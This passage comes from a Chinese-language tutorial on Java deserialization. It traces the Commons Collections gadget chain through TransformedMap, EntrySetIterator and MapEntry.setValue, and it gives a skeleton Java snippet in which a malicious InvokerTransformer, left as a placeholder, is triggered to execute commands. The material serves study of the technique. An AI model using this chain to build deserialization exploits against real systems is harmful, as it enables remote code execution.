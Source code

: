         }
    }
    ```

    这表明名为 `EntrySetIterator` 的 next 方法会得到 `MapEntry`，但是 `EntrySetIterator` 还是私有的，再向上找能够**获取 `EntrySetIterator` 的方法**。

5. 最终找到方法：
    ![image-20230405164915846](Serialization-Java/image-20230405164915846.png)

    获得 `EntrySetIterator` 需要 `EntrySet` ，而获得 `EntrySet` 需要 `AbstractInputCheckedMapDecorator` 的 `entrySet()` 方法，而 `TransformedMap` 实现了 `AbstractInputCheckedMapDecorator`，显然可以调用该方法。至此“如何执行命令”的问题解决。

6. 总结一下：
    **`TransformedMap.entryset().iterator().next()` 获取到 `MapEntry` ，然后 kick-off 部分调用其方法 `setValue("")` 即可。**

7. **执行命令的代码 - chain：**

    ```java
    HashMap<String, String> hashMap = new HashMap<>();
    hashMap.put("1", "随便");
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, 含有恶意代码的 InvokerTransformer);
    // 需要交给 kick-off 执行的部分
    transformedMap.entrySet().iterator().next().setValue("123");
    ```
